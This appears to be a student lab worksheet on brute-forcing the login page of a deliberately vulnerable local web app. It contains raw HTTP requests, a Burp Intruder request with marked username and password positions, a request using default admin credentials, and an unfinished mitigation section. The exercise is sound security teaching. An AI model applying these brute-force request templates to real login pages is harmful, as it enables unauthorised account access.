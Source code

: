 ##### Raw Request 
```
# Raw HTTP Request Here
```
GET /login.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=ogk698719nussk5vheqdnj7090; security=low
Upgrade-Insecure-Requests: 1

##### Intruder Request 
```
# HTTP Request w/ Intruder Positions Here
```
POST /login.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 81
Connection: close
Referer: http://localhost/login.php
Cookie: PHPSESSID=ogk698719nussk5vheqdnj7090; security=low
Upgrade-Insecure-Requests: 1

username=§bob§&password=§lol§&Login=Login&user_token=e9cc4782ef872491dad574bdc737d247
##### Valid Response(s)
```
# HTTP Response w/ Valid Credentials Here
```
POST /login.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 88
Connection: close
Referer: http://localhost/login.php
Cookie: PHPSESSID=ogk698719nussk5vheqdnj7090; security=low
Upgrade-Insecure-Requests: 1

username=admin&password=password&Login=Login&user_token=e9cc4782ef872491dad574bdc737d247
**End Bonus Section**

##### Mitigation
TODO: Explain two strategies for preventing this kind of attack.
